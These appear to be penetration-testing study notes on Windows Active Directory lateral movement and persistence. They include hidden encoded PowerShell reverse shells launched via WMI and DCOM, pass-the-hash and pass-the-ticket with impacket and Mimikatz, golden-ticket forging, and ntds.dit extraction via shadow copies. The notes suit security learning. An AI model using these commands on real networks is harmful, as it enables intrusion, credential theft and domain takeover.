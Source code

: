 # Lateral Movement

## WMIC

This is deprecated in new Windows versions, and must be Local Admin to run this command, but if we are we can run

```powershell
wmic /node:<NODE-IP> /user:<USER> /password:<PASSWORD> process call create "calc"
```

Same with Powershell:

```powershell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

## WINRS

Windows Remote Shell is command that needs the Domain Admin permission to be executed. WinRM is a built-in for WinRS

```powershell
winrs -r:<NODE-IP> -u:<USER> -p:<PASSWORD>  "cmd /c hostname & whoami"
```

## Powershell WinRM capability

We can use WinRM directly in Powershell with the script

```powershell
$username = '<USERNAME>';
$password = '<PASSWORD>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName <IP> -Credential $credential
```

We can switch between PS WinRM sessions with

```powershell
Enter-PSSession 1
```

## PSExec

PsExec is a good utility in the [SysInternals suite](https://learn.microsoft.com/en-us/sysinternals/downloads/). To use this we have to be Local Administrators and the ADMIN$ share must be exposed with File and Printer Sharing that has to be turned on. This, in the Windows AD machines is enabled by default. We can run PsExec with the following syntax.

```powershell
./PsExec64.exe -i  \\<MACHINE-IP> -u corp\<USER> -p <PASSWORD> cmd
```

From the kali machine we can use **impacket-psexec** to run commands on Windows AD joined machines

```shell
proxychains impacket-psexec <DOMAIN>/Administrator:'PASSWORD'@<IP>
```

## Pass the hash (PTH)

If the server has SMB active and the Windows File and Printer Sharing feature to be enabled we can use the previously gained hash to authenticate has another user using only the hash. For this purpose we can use the `impacket-wmiexec` utility in Kali. This will not work in Kerberos authentication but can grant us the access to the system.

```powershell
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@<IP>
```

## Overpass the hash

We can abuse the hash to gain a full Kerberos TGT to gain then a TGS. To run this attack the credentials has to be cached and this means that in the machine there has to be a session for another user that executed some programs before us. Then we can rely on Mimikatz to get the cached hashes. `The core concept of this attack is to obtain functionant TGT Kerberos ticket without using the NTLM authentication actively over the network.`

```powershell
privilege::debug
sekurlsa::logonpasswords
sekurlsa::pth /user:<USER> /domain:<ORG> /ntlm:<NTLM-HASH> /run:powershell
```

In the new shell we can use

```powershell
net use \\<SMB-SHARE>
klist
```

To list all tickets. If we don't use some authentication before, we will not have any tickets because this is a new session.

We can now use `PsExec` to perform a lateral movement on the user we impersonated before

```powershell
.\PsExec.exe \\files04 cmd
```

**In this way we can convert a NTLM hash in a TGT and we can use tools like PsExec to authenticate in another Windows machine with the TGT ticket. **

## Pass the ticket (PTT)

If a TGT ticket stays for the machine it was created for, but a TGS can be used in more ways. Here the TGS is reused to authenticate over the network and if the ticket belong to the current user, no Admin privilege is required. Here again we have to gain a pre-existent session in the machine and we have to dump the hashes and export them in the directory. This will create some `.kirbi` files that can be re-imported for another user.

```powershell
privilege::debug
sekurlsa::tickets /export
```

This is the Mimikatz command to import a ticket inside the current user session

```powershell
kerberos::ptt [0;12bd0]-0-0-xxxxxxxx-<USER>@<SERVICE>-<MACHINE>.kirbi
```

Again with `klist` we can list our new tickets (the new one should appear) and we can use the ticket to enter the service the ticket was for.

## DCOM

The Distributed Component Object Model can be used to perform lateral movement too. This is based on [COM](https://learn.microsoft.com/en-us/windows/win32/com/component-object-model--com--portal?redirectedfrom=MSDN) and is used for inter-communication between computer on a network. DCOM needs RCP on the TCP port 135 to be executed and a local Admin access. It is based on the Microsoft Management Console. We can run a reverse shell with DCOM with

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<IP>"))
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e <REVSHELL-ENCODED>","7")
```

On our attacker computer we must have a netcat listener active


# Persistence

After an exploit, to maintain a session once rebooted, changed credentials, etc.. we can craft custom golden tickets.

## Golden Tickets

First we start Mimikatz to dump the NTLM HASH for the `krbtgt` account along with the Domain SID on the **exploited Domain Controller**.

```powershell
privilege::debug
lsadump::lsa /patch
```

Then we purge the credentials and craft the golden ticket for our current user, on the target machine, even if the machine is outside of the domain.

```powershell
kerberos::purge
kerberos::golden /user:<USER> /domain:<DOMAIN> /sid:S-1-5-21-xxxxxx-xxxxx-xxxxx /krbtgt:<HASH> /ptt
misc::cmd
```

Now we have a golden ticket associated with the user session. Once the cmd shell is open we can run with `PsExec` the commands on the Domain Controller using our user that has the golden ticket.

```powershell
PsExec.exe \\dc1 cmd.exe
```

## Shadow Copies

This is a Microsoft's backup technology to perform snapshots of data. The utility is [VShadow Tool and Sample](https://learn.microsoft.com/en-us/windows/win32/vss/vshadow-tool-and-sample). We run the command with

```powershell
vshadow.exe -nw -p  C:
```

We must save the shadow device name to reuse it when we save the backup on the C:\ disk.

```powershell
copy \\?\GLOBALROOT\Device\<NAM>\windows\ntds\ntds.dit c:\ntds.dit.bak
```

As the last thing we save the Windows Registry hive.

```powershell
reg.exe save hklm\system c:\system.bak
```

We can then extract back the data on the Kali machine providing the ntds database and the hive.

```shell
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```